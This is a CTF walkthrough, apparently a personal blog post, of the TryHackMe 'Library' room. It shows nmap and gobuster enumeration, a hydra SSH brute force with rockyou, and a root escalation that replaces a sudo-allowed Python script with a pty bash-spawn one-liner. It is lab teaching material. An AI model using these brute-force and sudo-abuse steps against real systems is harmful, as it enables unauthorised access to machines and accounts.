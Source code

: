 ```yaml
---
published: true
---
```

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/Library/5.png)

Hello guys, This is the next easy machine from [Tryhackme](https://tryhackme.com/), Name is [Library](https://tryhackme.com/room/bsidesgtlibrary)

# [](#header-2)Nmap Scan

```
# Nmap 7.80 scan initiated Mon Jun 29 03:11:14 2020 as: nmap -sC -sV -oN nmap 10.10.147.65
Nmap scan report for 10.10.196.76
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 29 03:11:44 2020 -- 1 IP address (1 host up) scanned in 30.94 seconds

```

Only port 22 and port 80 ,Let's go into browser 

# [](#header-2)Web 

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/Library/1.png)

# [](#header-2)Directory Scan

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# gobuster dir -u http://10.10.147.65 -w /opt/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.147.65
[+] Threads:        10
[+] Wordlist:       /opt/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/29 03:40:27 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/images (Status: 301)
/index.html (Status: 200)
[ERROR] 2020/06/29 03:42:28 [!] Get http://10.10.147.65/pop: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/06/29 03:43:37 Finished
===============================================================
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

I checked in `robots.txt`

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/Library/2.png)

So may be `rockyou` is the hint for us , after some enumerating in website

I found the author name is `meliodas`

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/Library/3.png)

So I start cracked ssh password with `rockyou.txt`

CMD: `hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh`

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-29 03:16:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.147.65:22/
[STATUS] 105.00 tries/min, 105 tries in 00:01h, 14344298 to do in 2276:53h, 16 active
[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-29 03:18:36
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

`[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1`

After some times , I got ssh's password `i*******1`. Let's dig in :)

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# ssh meliodas@10.10.147.65
The authenticity of host '10.10.147.65 (10.10.147.65)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.147.65' (ECDSA) to the list of known hosts.
meliodas@10.10.147.65's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ 
```

```
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt
6d488********************35f4ec
meliodas@ubuntu:~$
```

Now we got user flag :). Type `sudo -l`

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$
```

You will see bak.py can run as root, let's check it

```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$ 
```
Codes are not intersting too much, let's run it

```
meliodas@ubuntu:~$ sudo python bak.py 
[sudo] password for meliodas: 
Sorry, user meliodas is not allowed to execute '/usr/bin/python bak.py' as root on ubuntu.
meliodas@ubuntu:~$
```

It's said meliodas not allowed to execute as root, But you can execute like this

`sudo python /home/meliodas/bak.py`

```
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
meliodas@ubuntu:~$
```
So I removed this file and create a new file with the same name like this

`echo 'import pty;pty.spawn("/bin/bash")' > bak.py`

And then run it again 

```
meliodas@ubuntu:~$ rm bak.py
rm: remove write-protected regular file 'bak.py'? yes
meliodas@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
root@ubuntu:~# ls
bak.py  user.txt
root@ubuntu:~# cd /root
root@ubuntu:/root# cat root.txt
e8c8*******************0488c617
root@ubuntu:/root#
```

Now we got root flag  and owned machine :) 

thanks for reading 

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/Library/4.png)

[Enjoy :)]()

<script src="https://tryhackme.com/badge/97569"></script>
